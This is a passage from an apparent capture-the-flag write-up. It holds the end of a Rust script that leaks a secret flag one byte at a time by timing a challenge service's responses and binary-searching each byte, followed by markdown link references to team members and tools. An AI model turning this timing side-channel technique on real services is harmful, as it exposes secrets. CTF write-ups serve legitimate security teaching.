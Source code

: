 ```rust

            assert_eq!(entries.len() as u32, u32::from_be_bytes(buf));
            elapsed
        }));
    }

    for task in tasks {
        total += task.await?;
    }

    Ok(total / NUM_TRIES as u32)
}

async fn discover_next(known: &[u8]) -> Result<u8, Box<dyn Error>> {
    let time_low = Duration::from_millis(10);

    let mut first = 0;
    let mut it = 0;
    let mut step = 0;
    let mut count = 255;
    while count > 0 {
        it = first;
        step = count / 2;
        it += step;
        let duration = {
            let mut curr = Duration::from_millis(0);
            loop {
                let temp = attack(create_payload(known, it)).await;
                if temp.is_ok() {
                    curr = temp.unwrap();
                    break;
                }
            }
            curr
        };
        if duration > time_low {
            it += 1;
            first = it;
            count -= step + 1
        } else {
            count = step;
        }
        println!("{} - {} - {:?}", it, step, duration);
    }
    it -= 1;
    Ok(it)
}

#[tokio::main]
async fn main() -> Result<(), Box<dyn Error>> {
    let mut flag: Vec<u8> = "".bytes().collect();
    // can't consistently crack the last two chars because there isn't space to make long binary tree branches
    // the last char is known to be } because of the flag format but the second to last char just needs to be guessed
    // it was pretty obviously e from the pattern
    for _ in 0..14 {
        let next = discover_next(&flag).await?;
        flag.push(next);
        println!("flag thus far: {}", String::from_utf8_lossy(&flag));
    }
    assert_eq!( String::from_utf8_lossy(&flag) + "e}", "CTF{1BitAtATime}");
    Ok(())
```

[Addison]: https://github.com/VTCAKAVSMoACE
[theinen]: https://github.com/tcheinen
[komputerwiz]: https://github.com/komputerwiz
[Arjun]: https://github.com/alalith
[chroot]: https://wiki.archlinux.org/index.php/Chroot
[getty override]: https://wiki.archlinux.org/index.php/Getty#Automatic_login_to_virtual_console
[systemd]: https://wiki.archlinux.org/index.php/Systemd
[systemd-nspawn]: https://wiki.archlinux.org/index.php/Systemd-nspawn
[hashcat]: https://hashcat.net/hashcat/
[rockyou]: https://wiki.skullsecurity.org/Passwords
[SSDT]: https://wiki.osdev.org/SSDT
[AML]: https://wiki.osdev.org/AML
[keybd\_event repo]: https://github.com/micmonay/keybd_event/blob/master/keybd_linux.go
[@micmonay]: https://github.com/micmonay
[Addison]: https://github.com/VTCAKAVSMoACE
[theinen]: https://github.com/tcheinen
[komputerwiz]: https://github.com/komputerwiz
